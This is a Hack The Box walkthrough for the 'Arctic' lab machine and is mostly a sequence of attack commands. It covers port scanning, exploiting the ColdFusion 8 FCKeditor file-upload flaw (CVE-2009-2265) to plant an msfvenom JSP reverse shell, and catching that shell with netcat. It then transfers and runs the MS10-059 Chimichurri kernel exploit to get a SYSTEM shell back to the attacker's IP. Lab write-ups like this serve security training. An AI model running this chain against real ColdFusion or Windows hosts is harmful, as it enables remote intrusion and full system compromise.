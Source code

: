 # 🧊 HTB: Arctic Walkthrough

# 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- **User**: `tolis`
- **Root Method**: MS10-059 exploit via Chimichurri

https://www.youtube.com/watch?v=Gfus5di2EF4

---

## 🔍 Reconnaissance

### 🔎 Full TCP Scan
```bash
nmap -p- --min-rate 10000 -oA nmap-alltcp 10.10.10.11
```

### 🔎 Version & Script Scan
```bash
nmap -sC -sV -p 135,8500,49154 -oA nmap-service 10.10.10.11
```

---

## 🌐 [Web Enumeration](HTTP)

### 🌐 Port 8500 Analysis
```bash
curl http://10.10.10.11:8500/
# or
nc 10.10.10.11 8500
```

Revealed ColdFusion 8 interface:
- `/CFIDE/administrator/enter.cfm` → Login panel
- `/userfiles/file/` → Web root accessible

---

## ⚔️ Exploitation (Initial Foothold)

### Method 1: CVE-2009-2265 – Unauthenticated File Upload

#### 🧬 Generate JSP Reverse Shell
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f raw > shell.jsp
```

#### 🗂 Upload Shell via ColdFusion vuln
```bash
cp shell.jsp shell.txt
curl -X POST -F "newfile=@shell.txt;type=application/x-java-archive;filename=shell.txt" \
"http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/shell.jsp%00"
```

#### 🔁 Trigger Reverse Shell
```bash
curl http://10.10.10.11:8500/userfiles/file/shell.jsp
```

### 🧲 Netcat Listener
```bash
rlwrap nc -nvlp 443
```

---

## 🧪 Privilege Escalation

### 📋 Check System Info
```bash
systeminfo
```

**No hotfixes installed** — prime for kernel exploits.

### 🔎 Enumerate with Windows Exploit Suggester
```bash
# On Kali
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
cd Windows-Exploit-Suggester
python3 windows-exploit-suggester.py --update

# Save output from systeminfo
python3 windows-exploit-suggester.py --database 2020-XX-XX-mssb.xls --systeminfo sysinfo.txt
```

**Selected**: [MS10-059.exe](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

### 📤 Transfer Exploit Binary
```bash


# On Arctic shell
net use \\10.10.14.14\share
copy \\10.10.14.14\share\Chimichurri.exe .
```

### 💣 Execute Exploit
```bash
Chimichurri.exe 10.10.14.14 443
```

### 🧲 Netcat Listener
```bash
rlwrap nc -nvlp 443
```

---

## 🏁 Flags

### 🧑‍💻 User
```bash
type C:\Users\tolis\Desktop\user.txt
```

### 👑 Root
```bash
type C:\Users\Administrator\Desktop\root.txt
```